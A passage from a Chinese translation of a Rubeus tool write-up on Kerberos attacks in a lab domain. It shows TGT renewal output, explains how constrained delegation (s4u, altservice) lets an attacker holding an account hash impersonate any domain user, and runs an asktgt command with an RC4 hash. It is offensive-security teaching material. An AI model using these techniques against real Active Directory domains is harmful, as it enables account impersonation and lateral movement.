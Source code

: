 ```
[*] Sleeping for 165 minutes (endTime-30) before the next renewal
[*] Renewing TGT for harmj0y@TESTLAB.LOCAL

[*] Action: Renew TGT

[*] Using domain controller: PRIMARY.testlab.local (192.168.52.100)
[*] Building TGS-REQ renewal for: 'TESTLAB.LOCALharmj0y'
[*] Connecting to 192.168.52.100:88
[*] Sent 1370 bytes
[*] Received 1378 bytes
[+] TGT renewal request successful!
[*] base64(ticket.kirbi):

      doIFFjCCBRKg...(snip)...


[*] User       : harmj0y@TESTLAB.LOCAL
[*] endtime    : 9/24/2018 8:03:55 AM
[*] renew-till : 9/30/2018 10:34:05 PM
[*] Sleeping for 269 minutes (endTime-30) before the next renewal
[*] Renewing TGT for harmj0y@TESTLAB.LOCAL
```

想更进一步的话，使用 Rubeus 的 **harvest** 函数，该功能将在系统上自动收集TGT并自动续订。

### <a class="reference-link" name="s4u"></a>s4u

限制委派这一主题很难用一小段篇幅深入地解析清楚。有关更多的背景信息，可以查看我的文章 [S4U2Pwnage](http://www.harmj0y.net/blog/activedirectory/s4u2pwnage/) 和相关资源。Rubeus 的操作和 Kekeo 中的 tgs::s4u 函数几乎一样。限制委派设置现在也是 [ BloodHound 2.0 搜集的信息之一了](https://posts.specterops.io/bloodhound-2-0-bc5117c45a99).

简要来说，如果一个用户或者计算机账户在其 msds-allowedToDelegateto 字段中设置了服务主体名称（SPN），并且攻击者获取了此用户/计算机的账户hash，则这个攻击者就可以在目标主机上伪装成任何域用户或任何服务。

滥用此 TTP 的方法，首先需要配置了限制委派的账户的有效 TGT/KRB-CRED 文件。使用此账户的 NTML/RC4 或 aes256_cts_hmac_sha1 哈希，利用 **asktgt** 功能即可获取这个文件。然后在 **s4u** 操作中，使用 **/ticket** 参数指定此票据文件（base64编码的blob 或者是磁盘上的一个票据文件），以及必需的 **/impersonateuser:X** 参数来指定要仿冒的账户， **/msdsspn:SERVICE/SERVER** 参数来指定账户的 msds-allowedToDelegateTo 字段中配置的 SPN 。而 **/dc** 和 **/ptt** 参数的功能与之前的操作相同。

/**altservice** 参数利用了 [Alberto Solino](https://twitter.com/agsolino)‘s 的伟大发现，即 [ 服务名称在KRB-CRED文件中不被保护](https://www.coresecurity.com/blog/kerberos-delegation-spns-and-more) ，只有服务器名称才被保护。这就允许我们在生成的KRB-CRED（.kirbi）文件中替换我们想要的任何服务名称。

```
c:Temptickets&gt;Rubeus.exe asktgt /user:patsy /domain:testlab.local /rc4:602f5c34346bc946f9ac2c0922cd9ef6

   ______        _
  (_____       | |
   _____) )_   _| |__  _____ _   _  ___
  |  __  /| | | |  _ | ___ | | | |/___)
  | |   | |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/

  v1.0.0

[*] Action: Ask TGT

[*] Using rc4_hmac hash: 602f5c34346bc946f9ac2c0922cd9ef6
[*] Using domain controller: PRIMARY.testlab.local (192.168.52.100)
[*] Building AS-REQ (w/ preauth) for: 'testlab.localpatsy'
[*] Connecting to 192.168.52.100:88
[*] Sent 230 bytes
[*] Received 1377 bytes
[*] base64(ticket.kirbi):

```